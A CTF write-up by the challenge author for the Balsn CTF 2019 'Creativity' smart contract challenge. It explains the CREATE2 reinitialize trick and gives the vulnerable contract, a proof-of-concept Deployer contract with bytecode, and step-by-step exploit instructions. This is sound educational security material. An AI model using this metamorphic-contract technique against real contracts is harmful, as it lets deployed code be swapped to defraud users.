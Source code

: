 ```yaml
---
title: "Balsn CTF 2019 - Creativity"
categories:
  - blog
tags:
  - ctf
  - smart contract
---
```


# Challenge

`Creativity` is one of my two smart contract challenges for [Balsn CTF 2019](https://github.com/balsn/balsn-ctf-2019). You may find the source files [here](https://github.com/shw9453/balsn-ctf-2019).

> Be concise, or be creative.

- Type: Smart contract
- Solves: 1/720
- Keywords: CREATE2, CREATE2 reinitialize trick, EVM opcode

# Solution

## TL;DR

In this challenge, our goal is to emit the `SendFlag` event. According to the [CREATE2 reinitialize trick](https://ethereum-magicians.org/t/potential-security-implications-of-create2-eip-1014/2614), we can deploy a contract that passes the `check()`, self-destruct it, and then deploy a new contract at the same address with a different code. Let our new contract emit the `SendFlag` event, which will be executed by the delegatecall from the game contract when `execute()` is called.

## Detailed Write-up

We are provided with the game contract source:

```js
pragma solidity ^0.5.10;

contract Creativity {
    event SendFlag(address addr);

    address public target;
    uint randomNumber = 0;

    function check(address _addr) public {
        uint size;
        assembly { size := extcodesize(_addr) }
        require(size > 0 && size <= 4);
        target = _addr;
    }

    function execute() public {
        require(target != address(0));
        target.delegatecall(abi.encodeWithSignature(""));
        selfdestruct(address(0));
    }

    function sendFlag() public payable {
        require(msg.value >= 100000000 ether);
        emit SendFlag(msg.sender);
    }
}
```

Unfortunately, we don't have that much ether to call `sendFlag` directly, so let's first try to follow the logic of the game contract:

1. Deploy a contract with its code size not more than 4 bytes.
1. Call `check()` with the address of the deployed contract as the parameter.
1. Call `execute()` to let the game contract make a [delegatecall](https://solidity.readthedocs.io/en/v0.5.12/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries) to our deployed contract.

The biggest problem is: How can we emit the `SendFlag` event by executing at most 4 bytes of EVM bytecode? The short answer is no, we can't. Or at least in the [Constantinople](https://blog.ethereum.org/2019/02/22/ethereum-constantinople-st-petersburg-upgrade-announcement/) hard-fork, the latest release of Ethereum when the CTF is held in Oct 2019.

In short, the reasons are:

1. Directly emit an event with `LOG1` requires an event topic hash as a parameter, which is more than 4 bytes. ([Ref](https://solidity.readthedocs.io/en/v0.5.12/contracts.html#low-level-interface-to-logs))
1. To invoke any type of call to another contract, at least 6 parameters should be prepared on the stack, which requires at least 6 operations and thus 6 bytes of code. ([Ref](https://ethervm.io/))
1. Modifying the storage of the game contract is useless since there is a selfdestruct right after the delegatecall.

### The CREATE2 Trick

The CREATE2 opcode proposed in [EIP-1014](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-1014.md) behaves identically the same as `CREATE`, except the calculated address for the deployed contract. This [discussion thread](https://ethereum-magicians.org/t/potential-security-implications-of-create2-eip-1014/2614) points out a critical security issue of `CREATE2`, the so-called `CREATE2` reinitialize trick, which allows a contract to change in-place after being deployed. You may find a detailed explanation in the link above.

Here is a simple PoC of the `CREATE2` reinitialize trick (re-written from [this contract](https://ropsten.etherscan.io/address/0xb3ecef15f61572129089a9704b33d53f56991df8#code)). All contracts deployed by `deploy(code)` through `Deployer` will be deployed at the same address. However, the code of these contracts can be different.

```js
pragma solidity ^0.5.10;

contract Deployer {
    bytes public deployBytecode;
    address public deployedAddr;

    function deploy(bytes memory code) public {
        deployBytecode = code;
        address a;
        // Compile Dumper to get this bytecode
        bytes memory dumperBytecode = hex'6080604052348015600f57600080fd5b50600033905060608173ffffffffffffffffffffffffffffffffffffffff166331d191666040518163ffffffff1660e01b815260040160006040518083038186803b158015605c57600080fd5b505afa158015606f573d6000803e3d6000fd5b505050506040513d6000823e3d601f19601f820116820180604052506020811015609857600080fd5b81019080805164010000000081111560af57600080fd5b8281019050602081018481111560c457600080fd5b815185600182028301116401000000008211171560e057600080fd5b50509291905050509050805160208201f3fe';
        assembly {
            a := create2(callvalue, add(0x20, dumperBytecode), mload(dumperBytecode), 0x9453)
        }
        deployedAddr = a;
    }
}

contract Dumper {
    constructor() public {
        Deployer dp = Deployer(msg.sender);
        bytes memory bytecode = dp.deployBytecode();
        assembly {
            return (add(bytecode, 0x20), mload(bytecode))
        }
    }
}
```

To solve this challenge, this is our plan:

1. Using the `CREATE2` reinitialize trick, deploy a contract with content `0x33ff`, which is `selfdestruct(msg.sender)`.
1. Call `check()` in the game contract to let our deployed contract pass the check.
1. Send an empty transaction to our contract to make it self-destructed.
1. Again, using the `CREATE2` reinitialize trick, deploy a new contract at the same address that will execute `emit SendFlag(0)`.
1. Call `execute()` in the game contract, it will then fire the `SendFlag` event.

# Misc

Congrats to @Sissel for being the only person who solved my two challenges during the CTF! I hope all of you enjoy this challenge and Balsn CTF.
